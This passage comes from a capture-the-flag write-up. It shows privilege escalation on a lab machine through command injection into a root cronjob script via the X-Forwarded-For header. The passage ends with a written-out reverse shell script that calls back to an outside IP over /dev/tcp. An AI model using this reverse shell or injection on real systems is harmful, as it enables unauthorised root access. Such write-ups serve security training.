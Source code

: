 Sending a request with the header mentioned and a payload that will trigger this logging using `curl`.

```console
kitty@kitty:/var/www/development$ curl -s 'http://127.0.0.1:8080/index.php' -X POST -d 'username=sleep&password=password' -H 'X-Forwarded-For: test'

SQL Injection detected. This incident will be logged!
kitty@kitty:/var/www/development$ cat logged
test
```

After spending some time, we notice that the `logged` file is cleared every minute.

![Log file clearing](log_file_clear.webp){: width="400" height="100" }

### Monitoring the processes

Getting another shell via SSH and running `pspy` in this shell to find the process responsible for clearing the log.

We see there is a cronjob that runs `/opt/log_checker.sh` as `root`.

```console
2024/02/03 17:32:01 CMD: UID=0     PID=3293   | /usr/sbin/CRON -f 
2024/02/03 17:32:01 CMD: UID=0     PID=3295   | /bin/sh -c /usr/bin/bash /opt/log_checker.sh 
2024/02/03 17:32:01 CMD: UID=0     PID=3296   | /usr/bin/bash /opt/log_checker.sh 
```

We are able to read the `/opt/log_checker.sh` script run by `root`.

```bash
#!/bin/sh
while read ip;
do
  /usr/bin/sh -c "echo $ip >> /root/logged";
done < /var/www/development/logged
cat /dev/null > /var/www/development/logged
```
{: file="/opt/log_checker.sh"}

Basically, the script reads the `/var/www/development/logged` line by line and calls `/usr/bin/sh -c "echo $ip >> /root/logged"` for every line, with the read line being the `$ip` parameter, and after that, it clears the `/var/www/development/logged` file.

### Shell via command injection

Since we are able to control what is written to the `/var/www/development/logged` file with the `X-Forwarded-For` header, we can control the `$ip` parameter and inject commands.

Creating a reverse shell at `/tmp/lol` and making it executable.

```
#!/bin/bash
bash -c "bash -i >& /dev/tcp/10.11.63.57/443 0>&1"
```
{: file="/tmp/lol"}
